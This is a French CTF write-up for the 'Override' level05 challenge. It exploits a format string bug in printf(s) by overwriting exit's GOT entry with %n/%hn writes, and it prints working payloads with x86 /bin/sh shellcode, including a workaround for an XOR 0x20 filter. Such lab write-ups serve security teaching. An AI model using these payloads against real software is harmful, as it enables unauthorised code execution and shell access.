 # Override / Level05


## Lire le fichier level05

On explore le fichier avec dogbolt et on peut voir cette ligne:

`printf(s);`

Ca l air d etre juste une string vulnerability.

## Exploit

Le printf vulnerability a deja ete vu dans Rainfall mais pour resume le %n permet d ecrire le nombre de caracteres dans le printf en memoire donne.

https://samsclass.info/127/proj/ED204c.htm

```
(python -c 'print "\xe0\x97\x04\x08JUNK\xe4\x97\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%n"')
Program received signal SIGSEGV, Segmentation fault.
0x00000042 in ?? ()
(gdb) x/1x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000042
```
On a juste a ecrire un shellcode /bin/sh puis ecrire sur la memoire de exit l'adresse de notre shellcode.

## Difficultes.

- Pas assez de place pour le shellcode.

- `s[i] ^= 0x20u;` qui change notre shellcode.

## Solutions.

Pour le nombre de place, j'ai utilisé %hn qui au lieu d'ecrire sur un byte a la fois il ecrit sur 2 bytes.
Ce la permet de passer  de 

`(python -c 'print "\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08JUNK\xe3\x97\x04\x08JUNK\xe4\x97\x04\x08%x%x%x%x%x%x%x%x%x%n%x.%n.%n%x"')` 

à 

`(python -c 'print \xe0\x97\x04\x08junk\xe2\x97\x04\x08%x%x%x%x%x%x%x%x%x%hn%x%hn"')`

On prend aussi un shellcode plus petit donc celui la:

`\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80`

Maintenant le seul soucis est le \x51 qui va etre transforme en \x71. Mais comme on peut ecrire sur la memoire avec %hn on va utilise cette technique pour ecrire \x51 sur l emplacement memoire du shellcode correspondant.

`run <<< $(python -c 'print "\xc5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"')`

Avec cette command on ecrit sur la memoire de notre shellcode situe a ffffd6c5. 

![Légende](img.png)


![Légende](img2.png)

Cela marche!

On peut maintenant ecrire sur la memoire de exit.

cela ouvre un bin/dash sur gdb!

Il ya 0x20 de diff entre la memoire de gdb et la memoire normale

\xc5\xd6\xff\xff => doit etre \xe5\xd6\xff\xff
et pour ffffd6bf => ffffd6df

> (python -c 'print "\xe5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28302x%hn%76064x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"';cat) | ./level05